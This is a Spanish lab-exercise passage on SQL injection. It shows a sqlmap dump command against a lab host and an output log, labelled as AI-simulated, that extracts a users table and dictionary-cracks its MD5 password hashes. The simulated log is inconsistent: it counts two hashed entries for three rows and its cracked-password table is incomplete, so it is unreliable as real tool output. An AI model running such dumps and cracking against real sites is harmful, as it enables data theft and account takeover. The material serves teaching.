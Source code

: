 ### SQLMap detectará automáticamente MD5 y preguntará si desea crackearlas via diccionario

Resultado del cracking: Genere una tabla o captura de pantalla del resultado

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación generada con IA que muestra lo que `sqlmap -D exercises -T users --dump` podría devolver al extraer datos de la tabla `users`, incluyendo el proceso de cracking de contraseñas MD5. Está incluida únicamente con fines didácticos y no proviene de una ejecución real.

```text
[00:54:15] [INFO] testing connection to the target URL
[00:54:16] [INFO] testing if the target URL content is stable
[00:54:17] [INFO] target URL content is stable
[00:54:17] [INFO] testing if GET parameter 'id' is dynamic
[00:54:17] [INFO] GET parameter 'id' appears to be dynamic
[00:54:17] [INFO] testing for SQL injection on GET parameter 'id'

[00:54:18] [INFO] dumping entries of 'users' in database 'exercises'
[00:54:18] [INFO] fetching number of entries for table 'users' in database 'exercises'
[00:54:18] [INFO] used SQL query returns 3 entries
[00:54:19] [INFO] retrieving data from table 'users'
[00:54:19] [INFO] retrieved: 1
[00:54:19] [INFO] retrieved: admin
[00:54:20] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
[00:54:20] [INFO] retrieved: admin@example.com
[00:54:21] [INFO] retrieved: 2
[00:54:21] [INFO] retrieved: john
[00:54:22] [INFO] retrieved: 098f6bcd4621d373cade4e832627b4f6
[00:54:22] [INFO] retrieved: john@example.com
[00:54:23] [INFO] retrieved: 3
[00:54:23] [INFO] retrieved: jane
[00:54:24] [INFO] retrieved: 5f4dcc3b5aa765d61d8327deb882cf99
[00:54:24] [INFO] retrieved: jane@example.com

Database: exercises
Table: users
[3 entries]
+----+----------+----------------------------------+-------------------+
| id | username | password                         | email             |
+----+----------+----------------------------------+-------------------+
| 1  | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@example.com |
| 2  | john     | 098f6bcd4621d373cade4e832627b4f6 | john@example.com  |
| 3  | jane     | 5f4dcc3b5aa765d61d8327deb882cf99 | jane@example.com  |
+----+----------+----------------------------------+-------------------+

[00:54:25] [INFO] table 'exercises.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.56.103/dump/exercises/users.csv'
[00:54:25] [INFO] analyzing table 'users'
[00:54:25] [INFO] found 2 entries with hashes (password column)
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[00:54:26] [INFO] using hash method 'md5_generic_passwd'
[00:54:26] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[00:54:27] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
[00:54:28] [INFO] cracked password 'test' for hash '098f6bcd4621d373cade4e832627b4f6'

Database: exercises
Table: users (cracked passwords)
+----------+----------------------------------+-----------+
| username | password (hash)                  | password  |
+----------+----------------------------------+-----------+
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | password  |
| john     | 098f6bcd4621d373cade4e832627b4f6 | test      |
```
